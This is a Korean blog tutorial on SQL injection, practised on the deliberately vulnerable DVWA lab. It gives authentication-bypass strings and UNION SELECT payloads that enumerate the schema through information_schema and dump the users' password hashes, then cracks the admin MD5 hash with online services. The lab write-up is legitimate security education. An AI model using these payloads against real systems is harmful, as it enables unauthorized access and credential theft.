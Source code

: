 ```yaml
---
title:  "웹 보안 - SQL Injection 개념 및 실습"
excerpt: "DVWA를 활용한 SQL Injection 실습"

comments: true
categories: web-security
tags: [sql-injection, dvwa]
toc: true
toc_sticky: true
 
date: 2022-05-04-22:05
last_modified_at: 2022-05-04
---
```


### SQL Injection 원리
* * *
1. 로직이 참이 되도록 함 : and, or
   - True and false = False
   - True or False = True
   - ' or 'a'='a

2. 주석처리 : 뒤에 처리되지 않고 남는 부분에 SQL 에러를 발생시킴 --> 주석처리로 무효화
   - Oracle, MS-SQL : --
   - MySQL, MariaDB : #
   - ' or 1=1--
   - ' or 1=1 #

3. 중첩문을 사용
   - 앞에 SELECT 문이 있으면 UNION SELECT 로 이어가는 방법
   - 앞에 SELECT 문이 있는데 UPDATE 문을 사용해서 

### DVWA 실습
* * *
#### 환경세팅
1. VMWare Player 에서 metasploitable2 실행
2. metasploitable2 의 ip를 web brower 주소창에 입력
3. DVWA 클릭
4. DVWA Security > security level > low로 설정

#### SQL injection 탭에서 한번에 다 출력 되도록 해보기
- 1, 2, 3, 4, 5 순서대로 입력해보기

**sql 문을 유추해보기**

- select firstname, surname from ~~ where id = '~'
- 뒤에 있는 single quotes를 닫아버리고 or 연산으로 무조건 true로 만들기

**(방법 1) 주석을 이용**

- ' or 1=1 #
- ' or 2=2 #

![](../../assets/images/20220531-024740.png){: .center}

**(방법 2) 뒤에 있을 single quotes 활용**

- ' or 'a'='a

![](../../assets/images/20220531-024745.png){: .center}

#### 로그인에 필요한 ID 와 Password 알아내기

- select 문을 자유자재로 써야하기 때문에 UNION SELECT를 이용할거임.
- **필요한 정보**
  - user가 저장된 table 명
  - id, password 가 들어갈 column 명

cf.union select 는 기존 select 문과 칼럼수가 동일해야 함
##### 1. DB 이름 알아내기

```sql
' union select database(),null #
```

![](../../assets/images/20220531-025134.png){: .center}

- Database 이름 : **dvwa**

##### 2. Table 이름 알아내기

- 알아낸 Database 이름으로 mysql, mariadb의 전반적인 정보가 모두 담겨있는 information_schema Database를 이용하여 알아낼거임.
- 이때 information_schema.tables 에서 " . " 의 의미는 지금 dvwa 데이터베이스에 있으므로 명확하게 database 이름을 정해주고 해당 데이터베이스 안의 'tables'라는 테이블에 접근해야 함.

```sql
' union select table_name,null from information_schema.tables where table_schema = 'dvwa' #
```

![](../../assets/images/20220531-025316.png){: .center}

##### 3. Column 목록 조회

- 위에서 알아낸 table명 중 가장 그럴싸한 users 테이블로 결정
- 여기서도 information_schema.columns 테이블에서 table_name이 users인  column_name 을 조회 
- 이를 sql로 나타내면 아래와 같다.

```sql
' union select column_name, null from information_schema.columns where table_name='users' #
```

![](../../assets/images/20220531-025628.png){: .center}

- ID가 들어있을 법한 column : user,
- password가 들어있을 법한 column : password

##### 4. users table 에서 id, password 조회

- 위의 과정을 통해 테이블 정보, id가 들어있을 칼럼, password가 들어있을 칼럼을 모두 알아냈으므로 아주 간단한 select문을 사용할 수 있다.

```sql
' union select user, password from users #
```

![](../../assets/images/20220531-025714.png){: .center}

**GOOD!**
- 아이디와 패스워드 모두 알아냈다.
- 이제 확인만 해보면 되는데... 비밀번호가 이상한 값이다.
- 이는 DB에서 비밀번호를 저장할때 해쉬함수로 변환해서 저장하기 때문이다.
- 먼저 어떤 해쉬 함수를 사용했는지 유추할 필요가 있는데
- 해쉬 함수의 특징 중 하나인 모든 해쉬값의 길이가 일정하다는건데, 
- 해쉬 함수들의 길이를 한번 되새겨보자.

<https://ssy02060.github.io/cryptograpy/hash-fucntion/>

- MD5 : 128 bit
- SHA1 : 160 bit
- SHA2-256 : 256 bit
- 해쉬함수의 대한 자세한 내용은 아래 링크 참고

- admin 의 password 해쉬 값은 5f4dcc3b5aa765d61d8327deb882cf99 으로 32자 이다.
- HEX 값은 한글자 당 4bit이고, 32자이므로 4*32 = 128bit 임을 알 수 있다.
- 결론 : md5 해쉬함수로 변환되었음을 알 수 있다.

**해쉬 값을 크래킹해주는 사이트**

<https://hashes.com/en/decrypt/hash>
<https://crackstation.net/>

![](../../assets/images/20220531-030211.png){: .center}

- 여기서 구한 비밀번호 평문과 ID로 DVWA의 Brute Force 탭에 로그인을 하면 아래와 같이 Welcome to 로 환영해주는 것을 알 수 있다.

![](../../assets/images/20220531-030216.png){: .center}

**GOOD!**